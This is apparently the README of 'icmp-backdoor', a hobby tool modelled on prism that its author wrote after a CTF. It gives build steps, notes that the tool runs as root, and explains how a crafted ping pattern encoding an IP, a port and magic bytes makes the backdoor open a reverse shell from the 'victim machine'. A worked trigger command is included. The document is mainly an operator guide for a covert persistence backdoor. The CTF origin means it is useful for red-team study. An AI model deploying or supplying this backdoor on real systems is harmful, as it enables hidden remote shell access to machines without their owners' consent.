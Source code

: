 # icmp-backdoor

During the BSidesLV Pros vs. Joes CTF, it was revealed that the red
cell used a very similar tool to this known as prism to achieve
persistence in a few of our machines. I decided to write my own tool
similar to this for practice.

Prism: https://github.com/andreafabrizi/prism

The concept behind this tool is that it listens for specially crafted
ICMP packets, and if they match a certain criteria, it will spawn a
reverse shell to a specified host and port.

# Building

First, you should edit icmp-backdoor.c. In particular, change the
MAGIC1, MAGIC2, and PROGNAME macros to values that suit your needs.

Next, just use _make_. This has currently been tested only on
Linux. Will test on BSD, macOS and others soon:

	$ make
	
If you don't have _make_ or if _gcc_ isn't your thing:

	$ clang -o icmp-backdoor icmp-backdoor.c

# Usage

Since this uses SOCK_RAW, you must run this as root or otherwise have
the ability to open raw sockets as the user that initially runs this.

Prism uses its own tool to send the packets. I opted for a "live off
the land" approach and use the commonly-available _ping_ utility with
the -p flag:

	$ ping -c 1 -p 0a0a001710002a7a host

The format for the pattern is: IIIIIIIIPPPPMMMM where I is IP address,
P is port, and M is magic bytes. This is represented as hexadecimal,
so you will either have to be a weirdo like me and be able to
calculate this in your head or use a calculator. I will add a shell
script to leverage this in the next few days.

In the above example:

	IP: 0a0a0017 is 10.10.0.23
	Port: 1000 is 4096
	Magic is 2a7a, which is hard-coded into this program.

This will open a reverse shell from the victim machine to 10.10.0.23:4096.

The magic bytes are there for alignment purposes when using the -p
flag with ping and as a mechanism to determine if a shell should be
opened when an ICMP packet is received.
